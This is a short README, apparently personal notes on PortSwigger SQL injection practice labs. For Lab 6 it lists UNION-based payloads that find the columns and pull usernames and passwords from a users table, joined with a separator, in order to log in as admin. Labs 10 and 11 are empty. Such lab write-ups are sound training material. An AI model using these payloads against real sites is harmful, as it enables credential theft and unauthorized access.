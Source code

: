 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Del it
## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
'Union+select+Null,NULL-- To determine the No. of columns
'Union+select+Null,'XYZ'-- To determine which column allows TEXT values
'Union+select+Null,username+from+users-- To retrieve Single TEXT value
'Union+select+Null,password+from+users-- To retrieve Single TEXT value
'Union+select+Null,username||password+from+users-- To retrieve Multiple TEXT value
'Union+select+Null,username||'~'||password+from+users-- To retrieve Multiple TEXT value with separator
```
- Login with Admin Creds to Solve the LAb
- ![image](https://github.com/user-attachments/assets/d73f2473-adfa-4ba2-beac-dfc914e9e354)


## Lab 10: [Link]()




## Lab 11: [Link]()
